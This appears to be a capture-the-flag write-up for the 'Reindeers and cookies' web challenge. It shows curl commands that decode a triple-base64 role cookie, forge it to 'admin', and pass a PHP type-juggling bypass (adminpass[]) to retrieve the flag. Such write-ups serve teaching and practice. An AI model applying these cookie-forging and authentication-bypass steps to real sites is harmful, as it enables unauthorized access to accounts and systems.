


# Reindeers and cookies (Web)

Hi CTF player. If you have any questions about the writeup or challenge. Submit a issue and I will try to help you understand.

Also I might be wrong on some things. Enjoy :)

(P.S Check out my [CTF cheat sheet](https://github.com/flawwan/CTF-Candy))



This is the challenge page. Both the title of the challenge and content of the challenge has cookies. Nice!



Let's look at the cookies:

```bash
curl --head http://199.247.6.180:12008/
HTTP/1.1 200 OK
Server: nginx
Date: Fri, 21 Dec 2018 14:38:47 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
X-Powered-By: PHP/7.2.10
Set-Cookie: adminpass=MyLittleCookie%21
Set-Cookie: cookiez=WlhsS2NGcERTVFpKYWtscFRFTktNR1ZZUW14SmFtOXBXak5XYkdNelVXbG1VVDA5
X-XSS-Protection: 1; mode=block
```

We have 2 cookies. `adminpass` and `cookiez`.

The cookiez string looks like base64. Decoding it:
```bash
echo -n "WlhsS2NGcERTVFpKYWtscFRFTktNR1ZZUW14SmFtOXBXak5XYkdNelVXbG1VVDA5" | base64 -d
ZXlKcFpDSTZJaklpTENKMGVYQmxJam9pWjNWbGMzUWlmUT09
```
We get another string that also looks like base64. Decoding it two more times.

```bash
echo -n "WlhsS2NGcERTVFpKYWtscFRFTktNR1ZZUW14SmFtOXBXak5XYkdNelVXbG1VVDA5" | base64 -d | base64 -d | base64 -d
{"id":"2","type":"guest"}
```
Cool we have something that looks like json.

### Privilege escalation

Our goal is to:
* Elevate privileges by changing guest->admin.
* base64 encode the json string 3 times
* Send the modified cookie to the server

```bash
COOKIE=`echo -n '{"id":"1","type":"admin"}' | base64 -w 0 | base64 -w 0| base64 -w 0`

curl --cookie "cookiez=$COOKIE;adminpass=MyLittleCookie%21" http://199.247.6.180:12008/ 2>/dev/null
```

`<h1 asdasd class='wrong'>You got the admin password wrong :c<br></h1</h1>
`

Weird... Hmm maybe the adminpass is wrong. Before we try a wordlist, let's see if we can bypass the authentication check.

In PHP arrays are symbolized as []. We can specify the adminpass to by of type array with [].

```
#!/bin/bash

COOKIE=`echo -n '{"id":"1","type":"admin"}' | base64 -w 0 | base64 -w 0| base64 -w 0`

curl --cookie "cookiez=$COOKIE;adminpass[]=" http://199.247.6.180:12008/ 2>/dev/null | grep "X-MAS"
```
Which gets us the flag:
```
<h1 Array class='right'>Good job! Here's your flag:<br>X-MAS{S4n74_L0v35__C00kiesss_And_Juggl1ng!}</h1</h1>
```

For those who don't know what type juggling is. Check out this [owasp article](https://www.owasp.org/images/6/6b/PHPMagicTricks-TypeJuggling.pdf)
